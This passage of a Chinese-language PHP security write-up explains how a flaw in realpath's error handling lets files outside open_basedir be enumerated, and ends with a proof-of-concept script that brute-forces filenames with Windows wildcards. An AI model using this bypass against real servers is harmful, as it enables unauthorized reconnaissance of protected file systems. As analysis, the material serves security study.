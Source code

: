 ```c
				return 0;
			}

			ptr = end;
		}
		if (warn) {
			php_error_docref(NULL, E_WARNING, "open_basedir restriction in effect. File(%s) is not within the allowed path(s): (%s)", path, PG(open_basedir));
		}
		efree(pathbuf);
		errno = EPERM; /* we deny permission to open it */
		return -1;
	}

	/* Nothing to check... */
	return 0;
}
```


可以看到realpath函数的错误处理，第一个if调用了VCWD_REALPATH 函数， 大概是判断路径是否正确，如果错误不执行php_check_open_basedir， 直接返回false, 如果是正确的文件路径才去验证是否在open_basedir目录下

可以看到这个逻辑是存在漏洞的，举个例子， 我们需要猜解根目录（不再open_basedir中)下的所有文件， 只用写一个捕捉err_handle().  当猜解某个存在的文件时， 会因不满足php_check_open_basedir函数抛出错误而进入err_handle().  当猜解某个不存在的文件时， 程序会直接返回false. 


在linux 下猜解目录的效率很低，  window 下可以借助通配符`< >`

借用p牛的poc:

```c
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>
```
